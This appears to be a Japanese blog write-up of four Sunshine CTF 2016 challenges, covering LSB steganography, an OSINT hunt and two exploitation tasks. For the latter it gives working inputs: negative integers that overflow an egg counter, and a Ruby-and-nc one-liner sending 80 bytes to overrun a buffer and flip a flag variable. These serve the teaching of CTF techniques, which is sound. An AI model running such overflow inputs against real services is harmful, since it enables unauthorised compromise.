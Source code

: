 ```yaml
---
date: "2016-03-15T01:42:29+09:00"
draft: false
title: "Sunshine CTF 2016 Write-up"
author: "mayth"
tags:
  - CTF
  - Write-ups
slug: sunshine-ctf-2016
---
```


2016-03-13 01:00 - 2016-03-14 05:00 (JST)に開催された[Sunshine CTF 2016](http://ctf.bsidesorlando.org/)のwrite-upです。

なお、今回は以下のメンバー編成で参加しました。

* mayth （土曜日を寝て潰す担当）
* op （たまに現れていくらかの助言と違法語句を残して去って行く担当）

ESTはクソ。

# Forensics 50: Butterfly Effect

`butterfly.png`が与えられる。

[ImgStegano](http://www1.chapman.edu/~nabav100/ImgStegano/)にファイルを読み込ませて"Image > Enhanced LSB"とするとフラグが現れた。

> sun{RE4DY_THE_4CID_M4GNET!}

# Exploitation 50: alligatorsim95

> Don't try to automate adding X eggs at a time
>
> legends circulate in florida of an alligator that had laid millions of eggs. use this simulator to try to achieve the same greatness

※プログラムは与えられない。

指定されたIPアドレス/ポートにncで接続すると、アリゲーターのAAと共に文章が流れてくる。

```
-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator??
```

この後に整数値を入力すると、その数だけ卵の数（上記の通り初期値1337）が増える。ただし上限は50。それを超えると拒否され再度同様のプロンプトが現れる。接続を切られるのは以下の通り。

* `echo`とかで入力を機械的に流し込もうとしたとき ("Don't try to automate adding X eggs at a time")
* 0や数字として解釈出来ない数を与えたとき
* 一定時間が経過したとき

この条件下で卵の数を大きくする問題。

色々入力を試すと、0はダメだが負数を受け付けること、また、負数であれば絶対値がいくら大きくてもよいことがわかった。
これを利用すると整数オーバーフローを引き起こすことができる。そうすると卵の数は非常に大きな値となり、フラグを得ることができる。

```
-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? -2147483647
~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got -2147482310 eggz in ur nest, how many you gonna lay alligator?? -10
~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got -2147482320 eggz in ur nest, how many you gonna lay alligator?? -40000
~~ producing eggz ~~
-> dang 2147444976 is a lotta eggs
-> as a god among gators here is ur crown:
sun{int_0verflow_i5_a_g0od_st4rt}
```

> sun{int_0verflow_i5_a_g0od_st4rt}

# Exploitation 55: Dance

> Some prefer the stanky leg, others prefer the dab, but what dance moves do you have?

IPアドレスとポート番号が指定される。当初プログラムは与えられなかったが、後にフラグ部分を潰したバイナリが配布された。

サーバーに接続すると以下のような文字が流れてくる。

```
welcome to the pro club. you just paid a door fee and have no respect. earn ur cred on the dancefloor!
give us ur sick dance moves like so:
whip,naenae,whip,whip,naenae<ENTER>
```

`whip`か`naenae`をカンマ区切りで並べて送信すると

```
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
```

こんな感じで対応したアクションと愉快なAAが流れてくる。

当初何をさせたいのかさっぱりわからなかったが、バイナリが配布されたのでそれを読んだ。

その結果、こちらからの入力を受け取るバッファについて、`memset`で80bytesを`NULL`で初期化しているにも関わらず、`fgets`で最大89bytesまで読み込むようになっていることがわかった。また、0で初期化された特定の変数の値が書き換わっているときにフラグが表示されるようになっていることがわかった。

入力の読み込みはだいたい次のようなロジックになっている。

```
while (strlen(buf) > 0) {
  if (*buf == 'n') {
    buf += 7;
    donaenae();
  } else if (*buf == 'w') {
    buf += 5;
    dowhip();
  }
}
check_flag();
```

先頭しか見てないっぽいので適当に80文字の"n"を送り付けたところ、フラグが得られた。

```
% ruby -e 'puts "n" * 0x50' | nc ****
welcome to the pro club. you just paid a door fee and have no respect. earn ur cred on the dancefloor!
give us ur sick dance moves like so:
whip,naenae,whip,whip,naenae<ENTER>
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
(snip)
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
girl u can dance w the best of em. the pw to our vip lounge is: sun{d4nc3_0n_th3_s7ack}

cool dance! come again!
```

> sun{d4nc3_0n_th3_s7ack}


# Misc 50: Find Floridaman

> In other news... Floridaman did what with an alligator?
>
> Remember, this has the normal flag format.
>
> Hint: You need only look at comments from Florida-based news websites.
>
> Hint: Gator went threw a window!
>
> Hint: "Flori-duh"
>
> NOTE: Flag was posted before the 12th

フロリダマンを探すマン。

問題オープン当初は最初の2文だけだったのが、誰も解かないからか次々にヒントが追加されて結局ヒントが3つになった。

ヒントが3つになってから、そのヒントを元に"Flori-duh Alligator"で探してみると、次の記事が見つかった。

[Wendy’s alligator-thrower is only fulfilling his Flori-duh destiny](http://www.mypalmbeachpost.com/news/news/crime-law/wendys-alligator-thrower-is-only-fulfilling-his-fl/nqNfr/)

この記事のReader Commentsにフラグがある。

> Summerc137 3 days ago
> May the Lord have mercy on this man. That poor woman in the drivethrough! sun{1s_th1s_even_real_l1fe?}

> sun{1s_th1s_even_real_l1fe?}

ちなみにこの事件、なんでも1mちょっとあるアリゲーターをWendy'sのドライブスルーの窓から投げ込んだのだそうな。さすがアメリカ。